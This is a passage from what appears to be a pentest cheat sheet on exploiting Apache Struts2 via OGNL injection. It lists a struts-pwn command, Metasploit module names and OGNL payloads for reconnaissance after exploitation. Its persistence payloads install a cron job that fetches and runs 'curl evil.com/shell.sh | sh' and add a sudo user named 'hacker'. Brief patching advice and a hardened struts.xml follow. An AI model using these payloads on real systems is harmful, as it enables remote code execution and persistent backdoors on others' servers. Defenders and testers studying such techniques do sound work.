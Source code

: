 ### Automated Tools
```bash
# Struts-pwn
python struts-pwn.py -u http://localhost:8086/struts2-showcase/ -c whoami

# Metasploit modules
use exploit/multi/http/struts2_content_type_ognl
use exploit/multi/http/struts2_namespace_ognl
use exploit/multi/http/struts2_rest_xstream
```

## Post-Exploitation

### Information Gathering
```bash
# System info
%{@java.lang.System@getProperty('os.name')}
%{@java.lang.System@getProperty('java.version')}
%{@java.lang.System@getProperty('user.dir')}

# Network info
%{@java.net.InetAddress@getLocalHost().getHostName()}
%{@java.net.InetAddress@getLocalHost().getHostAddress()}
```

### Persistence
```bash
# Add cron job
%{(#cmd='echo "* * * * * curl evil.com/shell.sh | sh" | crontab').(#p=new java.lang.ProcessBuilder({'/bin/bash','-c',#cmd})).(#p.start())}

# Create user
%{(#cmd='useradd -m -s /bin/bash -G sudo hacker && echo "hacker:password" | chpasswd').(#p=new java.lang.ProcessBuilder({'/bin/bash','-c',#cmd})).(#p.start())}
```

## Mitigation

### Immediate Actions
1. Update to latest Struts version
2. Apply all security patches
3. Implement WAF rules
4. Disable dynamic method invocation

### Configuration Hardening
```xml
<!-- struts.xml -->
<struts>
    <!-- Disable dynamic method invocation -->
    <constant name="struts.enable.DynamicMethodInvocation" value="false"/>
    
    <!-- Restrict OGNL access -->
    <constant name="struts.ognl.allowStaticMethodAccess" value="false"/>
    
    <!-- Enable strict method invocation -->
    <constant name="struts.enable.StrictMethodInvocation" value="true"/>
    
    <!-- Whitelist allowed classes -->
    <constant name="struts.allowedClasses" value="java.lang.String,java.util.Date"/>
</struts>
```
